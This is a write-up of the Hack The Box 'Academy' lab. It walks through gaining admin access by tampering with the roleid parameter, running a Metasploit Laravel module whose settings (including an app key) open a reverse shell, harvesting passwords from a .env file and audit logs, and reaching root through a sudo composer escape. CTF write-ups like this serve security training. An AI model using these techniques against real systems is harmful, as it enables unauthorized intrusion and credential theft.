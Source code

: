 ```yaml
---
layout: post
title: Hackthebox - Academy
date: 2021-03-03 19:00:00 +0000
category: [Hackthebox, Linux]
tags: [htb,linux,easy,gtfobins,reverse-shell,metasploit]
---
```


---
Academy is one of the easy level boxes in Hackthebox. I obtained the initial foothold by exploiting an application using ```Metaploit Framework```. Obtaining the second user was a piece of cake after running ```Linpeas```. The root flag is also fairly easy to get.
<br>
![cover_image](/assets/img/hackthebox/academy/1.png)

**Author** | egre55 & mrb3n
**Operating System** | Linux
**Difficulty** | Easy


Connect to ```Hackthebox``` and let's go.

## <ins>Enumeration</ins>
---
Starting out with our usual nmap scan...
<br>
![nmap_scan](/assets/img/hackthebox/academy/nmap_scan.png)
<br>
...I found that the ports ```22/ssh```, ```80/http``` and the port ```33060/mysqlx``` are open.

Before diving into the http service, add the following into your ```/etc/hosts``` file. ```Sudo``` permission is required to edit the file.
<br>
<pre>
10.10.10.215    academy.htb
</pre>
<br>
Going into the ```http service``` we can see a ```HTB academy``` home page. I moved into the login page.
<br>
![login_page](/assets/img/hackthebox/academy/2.png)
<br>
I used some common credentials in the login page but it was of no use. After using ```gobuster``` to enumerate further, I found some pages.
<br>
![gobuster_results](/assets/img/hackthebox/academy/3.png)
<br>
After going through some pages, I registered a new account and logged into the page.
<br>
![home_page](/assets/img/hackthebox/academy/4.png)
<br>
I took note of the one username that I found in the page. Other than that there was nothing useful in the page. So, I fired up my ```BurpSuite```.

I tried creating a new account and found that the parameter ```roleid``` is added at the end.
<br>
![role_id](/assets/img/hackthebox/academy/5.png)
<br>
I tried changing its value to ```1``` and forwarded the request.
<br>
![role_1](/assets/img/hackthebox/academy/6.png)
<br>
The account was successfully registered. After logging into the account I found two interesting things. The first thing is the ```usernames``` and the second thing is the ```vhost```.
<br>
![admin_page](/assets/img/hackthebox/academy/7.png)
<br>
Again add the ```vhost``` to the ```/etc/hosts``` file.
<br>
![etc_hosts](/assets/img/hackthebox/academy/8.png)
<br>
Now, moving into the vhost that we just found, it shows an error page. I found some interesting things from the error page. 
<br>
![error_page](/assets/img/hackthebox/academy/9.png)
<br>
I used ```searchsploit``` to check for any available exploits for the application ```Laravel``` and found some interesting exploits.
<br>
![search_sploit](/assets/img/hackthebox/academy/10.png)


## <ins>Exploit</ins>
---
The one I'll be using is the ```Metasploit module```. So, go ahead and fire up your ```Metasploit``` using the command ```msfconsole```.

After searching for the application name in the metasploit framework I found the exploit.
<br>
![meta_sploit](/assets/img/hackthebox/academy/11.png)
<br>
Use the following commands to set the variables for the exploit.
<br>
<pre>
search laravel
use 0
set rhosts 10.10.10.215
set vhost dev-staging-01.academy.htb
set lhost tun0
set app_key dBLUaMuZz7Uq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=
run
</pre>
<br>
At first I didn't set the ```APP_KEY``` variable and I didn't get the reverse shell. So, make sure you do.

After editing, your options should look like this,
<br>
![options_meta](/assets/img/hackthebox/academy/12.png)
<br>
After using ```run``` we can get the reverse shell. Stabilize the shell using ```python3 pty```.
<br>
![reverse_shell](/assets/img/hackthebox/academy/13.png)


## <ins>User flag</ins>
---
After googling a bit, I found that ```Laravel``` uses ```.env``` files for database configuration. I found the ```.env``` file in the ```/var/www/html/academy``` directory.
<br>
![dot_env](/assets/img/hackthebox/academy/14.png)
<br>
Cat-ing out the contents of the file I found a password for which I didn't know the username.
<br>
![secret_pass](/assets/img/hackthebox/academy/15.png)
<br>
I tried all the usernames that I have found during the enumeration process and it seems the username ```cry0l1t3``` is the right one. Stabilizing the shell and moving into the home dir of the user we can get the ```user flag```.
<br>
![user_flag](/assets/img/hackthebox/academy/16.png)
<br>
Boom!! We got the user flag.

## <ins>User 2</ins>
---
After checking the ```id``` it seems we are a member of the group ```adm```. For those of you who don't know, ```Group adm``` is used for system monitoring tasks. Members of this group can access the log files in the ```/var/log``` directory.
<br>
![id_user](/assets/img/hackthebox/academy/17.png)
<br>
I found four log files in the ```/var/log/audit``` directory. I checked the files for any hints, meanwhile I ran ```Linpeas``` in another terminal. In the end, I found the ```hex-encoded``` password in the results of ```Linpeas```.
<br>
![linpeas_results](/assets/img/hackthebox/academy/18.png)
<br>
Decoding it, we can get the password for the user, ```mrb3n```.
<br>
![pass_user2](/assets/img/hackthebox/academy/19.png)
<br>
Change the user and stabilize the shell.
<br>
![stable_shell](/assets/img/hackthebox/academy/20.png)
<br>


## <ins>Root flag</ins>
---
Running ```sudo -l```, I found that ```composer``` can be run as root.
<br>
![sudo_l](/assets/img/hackthebox/academy/21.png)
<br>
Checking the ```GTFObins```, I found the composer sudo payload.
<br>
![gtfo_bins](/assets/img/hackthebox/academy/22.png)
<br>
Now executing the payload, we can get the root shell. The root flag can be found in the usual place i.e, ```/root``` directory.
<br>
![root_flag](/assets/img/hackthebox/academy/23.png)
<br>
And a final note from the creators of this box.
<br>
![final_note](/assets/img/hackthebox/academy/24.png)
<br>

That's it folks. Happy hacking!!!
